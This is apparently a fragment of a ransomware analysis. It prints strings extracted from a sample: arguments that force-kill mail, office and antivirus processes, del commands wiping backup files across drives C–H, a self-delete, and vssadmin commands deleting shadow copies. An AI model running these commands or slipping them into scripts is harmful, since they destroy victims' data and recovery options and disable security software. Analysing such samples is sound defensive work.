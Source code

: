```
/IM sqlwriter.exe /F
/IM steam.exe /F
/IM synctime.exe /F
/IM tbirdconfig.exe /F
/IM thebat.exe /F
/IM thebat64.exe /F
/IM thunderbird.exe /F
/IM visio.exe /F
/IM winword.exe /F
/IM wordpad.exe /F
/IM xfssvccon.exe /F
/IM tmlisten.exe /F
/IM PccNTMon.exe /F
/IM CNTAoSMgr.exe /F
/IM Ntrtscan.exe /F
/IM mbamtray.exe /F
``` 

### Delete Back
```
$ strings TFHtY.bin | grep vssadmin &  strings TFHtY.bin | grep del
 
del /s /f /q c:\*.VHD c:\*.bac c:\*.bak c:\*.wbcat c:\*.bkf c:\Backup*.* c:\backup*.* c:\*.set c:\*.win c:\*.dsk
del /s /f /q d:\*.VHD d:\*.bac d:\*.bak d:\*.wbcat d:\*.bkf d:\Backup*.* d:\backup*.* d:\*.set d:\*.win d:\*.dsk
del /s /f /q e:\*.VHD e:\*.bac e:\*.bak e:\*.wbcat e:\*.bkf e:\Backup*.* e:\backup*.* e:\*.set e:\*.win e:\*.dsk
del /s /f /q f:\*.VHD f:\*.bac f:\*.bak f:\*.wbcat f:\*.bkf f:\Backup*.* f:\backup*.* f:\*.set f:\*.win f:\*.dsk
del /s /f /q g:\*.VHD g:\*.bac g:\*.bak g:\*.wbcat g:\*.bkf g:\Backup*.* g:\backup*.* g:\*.set g:\*.win g:\*.dsk
del /s /f /q h:\*.VHD h:\*.bac h:\*.bak h:\*.wbcat h:\*.bkf h:\Backup*.* h:\backup*.* h:\*.set h:\*.win h:\*.dsk
del %0

vssadmin Delete Shadows /all /quiet
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=401MB
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=unbounded
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=401MB
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=unbounded
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=401MB
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=unbounded
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=401MB
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=unbounded
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=401MB
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=unbounded
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=401MB
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=unbounded
vssadmin Delete Shadows /all /quiet

```
